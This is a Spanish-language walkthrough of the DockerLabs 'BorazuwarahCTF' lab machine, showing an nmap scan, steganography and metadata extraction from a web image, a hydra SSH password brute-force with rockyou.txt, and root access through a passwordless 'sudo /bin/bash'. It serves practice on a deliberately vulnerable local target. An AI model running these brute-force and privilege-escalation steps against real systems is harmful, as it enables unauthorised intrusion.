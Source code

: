 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "BorazuwarahCTF".
Una vez hecho , descomprimimos el archivo, e inicializamos la maquina con el comando:
```
bash auto_deploy.sh borazuwarahctf.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene dos puertos abiertos el 22 (SSH) y el 80 (HTTP):
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Vemos una pagina con una foto de un huevo Kinder. Si presionamos "CTRL + U", no vemos nada interesante, asi que nos bajaremos la foto para ver si hay algun mensaje oculto en ella con "wget http://172.17.0.2/imagen.jpeg ".
Ahora vamos a probar una tecnica de ocultacion de informacion llamada "Esteganografia".
Para ello, ejecutaremos STEGHIDE sobre la foto descargada:
```
steghide extract -sf imagen.jpeg

Enter passphrase: 
wrote extracted data to "secreto.txt"
```

**NOTA: Para ocultar un archivo llamado por ejemplo "archivo.txt" en una imagen "imagen.jpg" escribiriamos: 
	"steghide embed -cf imagen.jpg -ef archivo.txt"
Por su parte, si lo que queremos es extraer el archivo oculto, pondriamos: 
	"steghide extract -sf imagen.jpg**

Bueno, y ahora, volviendo a la maquina, si hacemos un "cat" sobre el archivo "secreto.txt", nos muestra:
```
cat secreto.txt

Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```
Gracias a la info obtenida, es el momento de intentar leer los posibles metadatos que haya en la foto con EXIFTOOL a ver si van por ahi los tiros:
```
exiftool imagen.jpeg
```
Obtenemos:
```
ExifTool Version Number         : 12.76
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 18:10:18+02:00
File Access Date/Time           : 2024:07:08 19:29:37+02:00
File Inode Change Date/Time     : 2024:07:08 19:27:29+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```
Por fin hemos obtenido un usuario: "borazuwarah".
Es momento ahora de usar HYDRA para ver si podemos obtener la contraseña de este usuario y entrar por el puerto 22 (SSH).
```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Unos segundos despues obtenemos:
```
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
```
Es hora de intentar acceder mediante el protocolo SSH por lo que escribimos:
```
borazuwarah@172.17.0.2
```
Tras contestar "yes" a la primera pregunta e introducir la contraseña obtenida con HYDRA, vemos que ya estamos dentro. Solo nos quedaria la escalada de privilegios para tener acceso completo. Intentaremos primero con el comando "sudo -l":
```
borazuwarah@ccab7e55cb75:~$ whoami
borazuwarah

borazuwarah@ccab7e55cb75:~$ sudo -l
Matching Defaults entries for borazuwarah on ccab7e55cb75:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User borazuwarah may run the following commands on ccab7e55cb75:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
    
borazuwarah@ccab7e55cb75:~$
```
Tal y como se observa, ejecutando "/bin/bash" deberiamos tener acceso "root", por lo que simplemente escribimos:
```
borazuwarah@ccab7e55cb75:~$ sudo /bin/bash

root@ccab7e55cb75:/home/borazuwarah# whoami
root
root@ccab7e55cb75:/home/borazuwarah#
```
Y listo, tal y como se puede observar, al escribir "whoami" se ve que el acceso como "root" ha sido obtenido. Con esto la maquina estaria hecha.



